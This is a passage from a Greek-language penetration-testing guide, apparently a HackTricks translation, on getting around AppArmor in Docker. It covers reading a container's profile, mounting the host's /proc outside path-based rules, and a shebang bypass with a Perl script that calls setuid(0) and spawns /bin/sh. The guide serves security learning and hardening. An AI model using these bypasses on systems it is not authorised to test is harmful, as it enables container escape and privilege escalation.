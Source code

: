 Όπως φαίνεται παρακάτω, λαμβάνουμε σφάλμα όταν προσπαθούμε να αλλάξουμε το "/etc/" επειδή το προφίλ του AppArmor αποτρέπει την εγγραφή πρόσβασης στο "/etc".
```
$ docker run --rm -it --security-opt apparmor:mydocker -v ~/haproxy:/localhost busybox chmod 400 /etc/hostname
chmod: /etc/hostname: Permission denied
```
### Παράκαμψη AppArmor Docker1

Μπορείτε να βρείτε ποιο προφίλ **apparmor εκτελείται από ένα container** χρησιμοποιώντας:
```bash
docker inspect 9d622d73a614 | grep lowpriv
"AppArmorProfile": "lowpriv",
"apparmor=lowpriv"
```
Στη συνέχεια, μπορείτε να εκτελέσετε την παρακάτω γραμμή για **να βρείτε το ακριβές προφίλ που χρησιμοποιείται**:
```bash
find /etc/apparmor.d/ -name "*lowpriv*" -maxdepth 1 2>/dev/null
```
### Παράκαμψη AppArmor Docker2

**Το AppArmor βασίζεται στα μονοπάτια**, αυτό σημαίνει ότι ακόμα και αν **προστατεύει** αρχεία μέσα σε έναν κατάλογο όπως το **`/proc`**, αν μπορείτε **να ρυθμίσετε πώς θα εκτελείται το container**, μπορείτε **να προσαρτήσετε** τον κατάλογο proc του κεντρικού συστήματος μέσα στο **`/host/proc`** και δεν θα προστατεύεται πλέον από το AppArmor.

### Παράκαμψη Shebang του AppArmor

Σε [**αυτό το σφάλμα**](https://bugs.launchpad.net/apparmor/+bug/1911431) μπορείτε να δείτε ένα παράδειγμα πώς **ακόμα κι αν αποτρέπετε την εκτέλεση του perl με συγκεκριμένους πόρους**, αν απλώς δημιουργήσετε ένα shell script **προσδιορίζοντας** στην πρώτη γραμμή **`#!/usr/bin/perl`** και **εκτελέσετε το αρχείο απευθείας**, θα μπορείτε να εκτελέσετε ό,τι θέλετε. Π.χ.:
```perl
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```
### [WhiteIntel](https://whiteintel.io)

<figure><img src="/.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>
